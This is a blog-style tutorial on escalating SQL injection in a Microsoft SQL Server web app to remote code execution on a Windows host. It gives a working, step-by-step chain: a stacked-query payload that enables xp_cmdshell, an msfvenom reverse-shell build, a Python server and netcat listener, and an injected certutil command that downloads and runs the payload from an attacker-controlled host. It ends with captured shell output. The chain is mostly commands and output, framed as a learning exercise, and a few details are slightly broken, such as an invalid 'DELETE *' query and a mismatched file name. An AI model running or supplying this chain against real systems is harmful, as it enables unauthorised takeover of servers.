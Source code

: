 ```yaml
---
layout: post
title: From SQLi to remote code execution
---
```


SQL injection opens the way to data manipulation and theft, but I recently discovered that it can be an attack vector enabling **remote code execution** (RCE). This highly critical vulnerability gives the attacker access to the entire target machine.

There are more variants of how to gain this in different Database Management Systems (DBMS) and platforms. For this article, I'll show how an attacker might do this in an application having Microsoft SQL Server as DBMS and running on a Windows machine.

### SQLi
SQL injection (SQLi) is a common web security vulnerability. It allows an attacker to tamper with the SQL statement an application makes to the database. SQLi was frequently included in the [OWASP Top 10](https://www.owasptopten.org/).

As a quick refresher on SQLi, I will illustrate a marketplace built with PHP that allows users to delete one of their products. The client will send a `DELETE /products/PROD_ID` request. Server-side, a `$productId` variable is initialized with the value of the `PROD_ID` parameter. It will send this query to the DB:  

```sql
DELETE * FROM products WHERE id = '$productId'; 
```

A malicious user can send this parameter `' OR 1=1--`. If the server does not sanitize and validate this input, it results in the following query. Doing this triggers the deletion of all products:

```sql
DELETE * FROM products WHERE id = '' OR 1=1--';
```

### Store procedures
These are SQL statements that can be reused, think of them as functions in SQL. Many DBMS offer their own stored procedures, Microsoft SQL Server has **xp_cmdshell**.

xp_cmdshell provides a way for the SQL Server to directly execute OS commands and programs. As you can already see, this might pose a security risk. 
For good reasons, this functionality is by default disabled on the production server. But due to specific requirements or just plain misconfigurations, you can sometimes find it enabled.   
Sometimes, xp_cmdshell can be enabled via `EXEC` queries if the user has:
- *sysadmin* server role
- `ALTER SETTINGS` server-level permission

An attacker might enable it by using [batched (or stacked) queries](https://portswigger.net/web-security/sql-injection/cheat-sheet) and injecting the following configuration options:

```sql
'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --
```

From the [documentation](https://learn.microsoft.com/en-us/sql/database-engine/configure-windows/xp-cmdshell-server-configuration-option?view=sql-server-ver16<):

```sql
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

## Obtaining RCE
Now that the attacker has detected a SQLi vulnerability and can access xp_cmdshell, the following steps are:
1. Create a malicious payload (**rshell.exe**) with **MSFVenom**
2. Serve this file
3. Set up a listener for incoming connections from the target machine
4. On the target machine, use the **certutil.exe** Windows program to download this file from our controlled server
5. Execute the **rshell.exe** file on the target machine to create a reverse shell connection back to a listener on our machine.


> [!NOTE]
> [certutil.exe](https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/certutil) is a native Windows CLI program part of Certificate Services. It is signed by Microsoft and used to make HTTP/s connections.
>
> [MSFVenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) is a CLI payload generation tool MSFVenom, and it comes with plenty of utilities used in pen testing and ethical hacking. 

### First step
I will use MSFVenom to create our payload (change `MY_LISTENER_IP_ADDR` to your own).

```shell
msfvenom -p windows/x64/shell_reverse_tcp LHOST=MY_LISTENER_IP_ADDR LPORT=4444 -f exe -o rshell.exe
```

A new file called **rshell.exe** has been created.

### Second step
To serve this file, I will start a Python server:

```shell
python3 -m http.server 8000
```

All files in my current directory are now accessible to download on the target machine.   

### Third step
I set up a listener using the **Netcat** utility, listening for connections from the target machine on port 4444

```shell
nc -lnvp 4444
```

### Forth and fifth step
Using the SQLi vector, I can run the **xp_cmdshell** utility to download and execute this file:

```
'; EXEC xp_cmdshell 'certutil -urlcache -f http://MY_SERVER_IP_ADDR:8000/rshel.exe C:\Windows\Temp\rshel.exe'; --
```

I checked my Python server's output:

```shell
python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
MACHINE_IP - - [01/Jan/2024 10:15:01] "GET /rshel.exe HTTP/1.1" 200 -
```

Suggesting that the target machine fetched my file. Now, if everything goes well, my Netcat listener should have a reverse shell connection:

```
nc -lnvp 4444
listening on [any] 4444 ...
connect to [99.99.99.99] from (UNKNOWN) [MACHINE_IP] 49730
Microsoft Windows [Version 10.0.13143.1731]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
nt service\mssql$sqlexpress
```

And great success! I have obtained RCE, allowing me to run commands on the target machine. I already ran the `whoami` command and got `nt service\mssql$sqlexpress` as a response.

Doing this exercise was fun as it ties the two common vulnerabilities. As SQL injection can escalate to RCE, it vastly increases the attack surface. It highlights how dangerous SQLi vulnerabilities are and the importance of patching them.

## References
- tryhackme.com
- www.w3schools.com
- portswigger.net
